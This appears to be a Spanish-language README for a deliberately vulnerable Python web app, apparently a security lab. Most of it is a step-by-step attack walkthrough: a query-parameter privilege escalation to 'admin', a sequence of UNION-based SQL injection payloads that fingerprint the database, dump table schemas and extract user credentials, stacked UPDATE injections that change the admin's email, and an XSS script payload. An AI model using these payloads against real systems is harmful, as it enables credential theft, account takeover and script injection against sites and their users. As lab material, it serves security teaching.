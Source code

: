 Python version 3.12.3

Install dependencies: pip3 install -r requirements.txt

Run: py app.py

---

# Procedimiento

### 1. Entrar a la ruta /posts y cambiar el query param role por 'admin', lo cual habilita un campo filtro
### 2. Inyectar sql en este campo filtro.
   #### El objetivo es encontrar información sobre las db, tablas, columnas, como no sabemos que motor de BD utiliza, probamos con las sentencias SQL para distintos motores, para encontrar el motor que utiliza.
   ##### MySQL
   - ' UNION ALL SELECT table_schema, table_name, engine, version, row_format FROM information_schema.tables WHERE table_type = 'BASE TABLE' ORDER BY table_schema, table_name;--
   - ' UNION ALL SELECT version();--
   - ' UNION ALL SELECT schema_name FROM information_schema.schemata;--

   ##### MSSQL
   - ' UNION ALL SELECT name FROM master.dbo.sysdatabases;--
   - ' UNION ALL SELECT name FROM master.sys.databases;--
   - ' UNION ALL SELECT name FROM sys.dm_os_sys_info;--
   - ' UNION ALL SELECT name FROM dbo.dm_os_sys_info;--

   ##### SQLite
   - ' UNION ALL select sqlite_version();--
   #### En este ultimo intento vemos que el error refiere a cantidad de columnas que retorna, por lo que inferimos que algo retorno del select, entonces estamos ante un motor sqlite.

   #### Acá probamos con una sola columna, nos dicen que faltan más y vamos probando con más hasta que encontramos que son 3, ya que cambia de error
   - ' UNION ALL SELECT name FROM sqlite_master WHERE type='table'--
   - ' UNION ALL SELECT name, name as bla FROM sqlite_master WHERE type='table'--
   - ' UNION ALL SELECT name, name as bla, name as ble FROM sqlite_master WHERE type='table'--
   #### Acá nos dice que hay un error que dice que necesitamos un valor entero, entonces vamos probando columna por columna para ver cual es la columna que debe ser un entero
   - ' UNION ALL SELECT name, name as bla, 11 as ble FROM sqlite_master WHERE type='table'--
   - ' UNION ALL SELECT name, 77 as bla, 11 as ble FROM sqlite_master WHERE type='table'--
   - ' UNION ALL SELECT 66, name as bla, 11 as ble FROM sqlite_master WHERE type='table'--

   #### Ahora, teniendo el nombre de la tabla, queremos descubrir los nombres de los campos (users, posts y comments)
   - ' UNION ALL SELECT 20, sql, '-' FROM sqlite_schema where name = 'users' --
   - ' UNION ALL SELECT 20, sql, '-' FROM sqlite_schema where name = 'posts' --
   - ' UNION ALL SELECT 20, sql, '-' FROM sqlite_schema where name = 'comments' --

   #### Con toda la informacion previa, podemos ver la información de las tablas
   - ' UNION ALL SELECT id, id || ' ' || username || ' ' || email || ' ' || role, password FROM 'users' --
   - ' UNION ALL SELECT id, title, content FROM 'posts' --
   - ' UNION ALL SELECT id, content, post_id FROM 'comments' --

   #### En el mismo campo, intentamos buscar la forma de cambiar el mail, pero no nos permite, ya que se ejecuta solo una consulta a la vez
   - s' ; UPDATE users SET email='my_email' WHERE username='admin'; --

   #### Buscamos otros campos donde poder injectar sql. Encontramos que los posts tienen un campo texto, que permite esta injeccion
   - s' ; UPDATE users SET email='`<un_mail>`' WHERE username='admin'; --

### 3. ' UNION ALL SELECT 10 as id, sql AS content, '-' as title from sqlite_schema where name = 'users' --
### 4. Logeado como admin, crear un post con contenido malicioso. Ejemplo de contenido: <script>alert('alerta xss')</script>
